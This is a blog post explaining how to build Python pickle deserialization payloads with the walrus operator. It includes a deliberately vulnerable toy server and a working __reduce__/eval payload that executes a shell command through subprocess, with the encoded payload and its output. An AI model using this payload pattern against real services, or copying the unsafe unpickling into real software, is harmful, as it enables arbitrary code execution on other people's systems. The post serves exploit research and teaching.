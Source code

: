 ```yaml
---
layout: post
title: "Simpler unpickle payloads with the walrus operator"
date: 2022-01-07 01:00
type: post
published: true
comments: true
categories: software
---
```


When exploiting Python deserialization, specifically, Pickle, vulnerabilities you need to craft a payload consisting of a collection of arguments and a callable that is available on the server. Most commonly you can use the `eval` function and a string to be evaluated. This is fairly flexible and from here you can typically import the `os` module and call `os.system` to do whatever you want. Sometimes there can be some limitations in place, for example, you might not get the output of the application directly and it might be blocking outbound connections preventing reverse shells. In some situations you need the result of the unpickle operation to return an object with specific properties. If you are lucky and convenient classes exist on the target and you have knowledge of them you might get away with simply constructing one of them. If this is not the case it is slightly trickier.

A big issue is that `eval` only evaluates a single expression so you can't declare your own classes since that is a statement, not an expression. With the introduction of the new walrus operator in Python, this is now much easier since we can now perform assignments as an expression. The key idea is that we can create a tuple where each element in the tuple can access items which have been assigned in a previous element. For example, this is a valid Python expression which will evaluate to `2`.

{% highlight python %}
(a:=1, b:=a+a, b)[-1]
{% endhighlight %}

We can use the same pattern to construct completely arbitrary objects. As a toy example, let's say you have a server like this which takes some input and unpickles it:

{% highlight python %}
#!/usr/bin/env python3

import base64
import pickle

class Item(object):
    def __init__(self, text):
        self.text = text

    def process(self):
        return self.text.upper().encode()

while True:
    try:
        b64data = input('Pickled object: ')
        data = base64.b64decode(b64data)
        item = pickle.loads(data)
        res = item.process()
        print(f'Result: {res.decode()}')
    except KeyboardInterrupt:
        print('Exiting') 
        break
    except Exception as e:
        print(f'An error occurred while processing data: {e}')
{% endhighlight %}

Let's pretend that we do not get any stdout data from the unpickling and that no outbound connections are allowed so a reverse shell won't do. Note that the unpickled object needs to have a `.process()`method which returns something which we can call `.decode()` on which in turn should return a string. We can then use the following code to craft such a payload:

{% highlight python %}
#!/usr/bin/env python3

import base64
import pickle

class Payload(object):
    def __reduce__(self):
        return eval, ('(a:=type("A", (object,), {}),b:=a(),b.__setattr__("process", lambda: __import__("subprocess").check_output("id")),b)[-1]',)

payload = Payload()
payload = base64.b64encode(pickle.dumps(payload)).decode()
print(payload)
{% endhighlight %}

The key element here is the Python expression:

{% highlight python %}
(
    a:=type("A", (object,), {}),
    b:=a(),
    b.__setattr__("process",
        lambda: __import__("subprocess").check_output("id")
    ),
    b
)[-1]
{% endhighlight %}

The first element of the tuple creates a new type called `A` and assigns it to `a`. We then instantiate an object of this type in variable `b`. We then set the `.process` attribute of this object to be a function which will call the `id` command and return the output. Finally we put the object itself as the last element of the tuple and use the `[-1]`indexing operation to extract our crafted object. Running this code and providing it as input to our server results in the following:

```
Pickled object: gASVlAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIx4KGE6PXR5cGUoIkEiLCAob2JqZWN0LCksIHt9KSxiOj1hKCksYi5fX3NldGF0dHJfXygicHJvY2VzcyIsIGxhbWJkYTogX19pbXBvcnRfXygic3VicHJvY2VzcyIpLmNoZWNrX291dHB1dCgiaWQiKSksYilbLTFdlIWUUpQu
Result: uid=1000(zetatwo) gid=1000(zetatwo) groups=1000(zetatwo)
```

I hope this little trick come in handy whenever you are dealing with Python unpickle vulnerabilities.
